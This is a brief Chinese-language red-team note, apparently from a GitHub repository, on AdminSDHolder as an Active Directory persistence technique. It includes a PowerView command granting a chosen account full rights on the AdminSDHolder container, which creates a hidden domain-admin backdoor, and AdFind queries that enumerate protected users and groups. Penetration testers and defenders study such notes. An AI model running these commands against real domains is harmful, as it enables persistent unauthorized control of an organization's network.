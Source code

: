 # Admin SDHolder  
## 简述  
Admin SDHolder是一种域权限维持的技术，
## 基础  
AdminSDHolder 是一个特殊的AD容器  ，用于受保护的AD账号和组的模板  

AD 域会采用 AdminSDHolder对象的ACL并且定期应用AD账户和组，防止被修改。  

受保护的AD账户和组的 AdminCount 属性为 1    



这个在渗透测试当中一般用于权限维持  

当可以将用户添加到这个容器当中的时候，在容器当中的用户虽然没有域管理员的权限但是却有 域管理员的功能  

比如添加域管理员等。



## 特殊   

对用于添加AdminSDHolder的权限  

```
Import-Module .\PowerView.ps1
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName xx -Verbose -Rights All
```

adfind 寻找 受保护的用户 

```
Adfind.exe -b DC=domain,DC=com -f "&(objectcategory=person)(samaccountname=*)(admincount=1)" -dn
```

adfind寻找 ad受保护的组  

```
Adfind.exe -b DC=domain,DC=com -f "&(objectcategory=group)(admincount=1)" -dn
```







## refer

 https://www.redteaming.top/2020/02/24/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94AdminSDHolder/

https://cloud.tencent.com/developer/news/415606

[AdminHolder](https://docs.microsoft.com/zh-cn/windows-server/identity/ad-ds/plan/security-best-practices/reducing-the-active-directory-attack-surface)

